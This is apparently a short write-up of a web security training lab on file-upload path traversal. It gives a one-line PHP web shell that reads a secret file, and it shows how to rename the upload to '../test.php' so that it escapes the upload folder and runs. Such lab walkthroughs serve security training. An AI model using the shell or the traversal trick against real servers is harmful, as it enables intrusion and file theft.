 # file upload web shell upload via path traversal

## This lab contains a vulnerable image upload function. The server is configured to prevent execution of user-supplied files, but this restriction can be bypassed by exploiting a [secondary vulnerability].

## To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

## You can log in to your own account using the following credentials: `wiener:peter`

<?php echo file_get_contents('/home/carlos/secret'); ?>

save as test.php

### step1

login using userid and password
upload any images and try to upload expolit code file it will not upload
so path traveral come in role
../ it means exit from current director
so upload php file and intercept url
filename="test.php" change to filename="../test.php"
and forword
then
access GET /files/test.php HTTP/1.1
OLBNOvcGpJ8NiYO5k1gFyUSNkpTAVdhV

submit code lab solved

![screenshot](./images/lab4_image_upload_file_intercept.png)

![screenshot](./images/lab4_htacess_add_type.png)

![screenshot](./images/lab4_test_shell_upload.png)

![screenshot](./images/lab4_getrequest_test_shell.png)
